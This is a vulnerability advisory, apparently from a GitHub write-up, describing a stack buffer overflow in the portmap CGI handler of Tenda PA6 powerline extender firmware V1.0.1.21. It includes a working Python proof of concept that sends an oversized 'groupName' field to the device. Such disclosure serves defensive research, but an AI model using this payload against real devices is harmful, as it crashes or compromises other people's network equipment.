

# Tenda PA6(V1.0.1.21) Wi-Fi Powerline Extender has stack buffer overflow vulnerability
## Information

Vendor：https://www.tendacn.com/

Firmware：https://www.tendacn.com/download/detail-3979.html

## Affected Version
V1.0.1.21
## Vulnerability Analysis
The following image displays the code for a stack buffer overflow vulnerability in the `cgiPortMapAdd` function of `httpd`. The value of the `groupName` parameter will be concatenated ​​to local variable `var_82c`, which will cause stack buffer overflow.


## POC
```python
import requests

url = "http://192.168.0.1/portmap"

payload = { 
    'action': 'add',
    'groupName': "A"*1000
    }

requests.request("POST", url, data=payload)
```
## NOTE
The vendor was contacted early about this disclosure but did not respond in any way.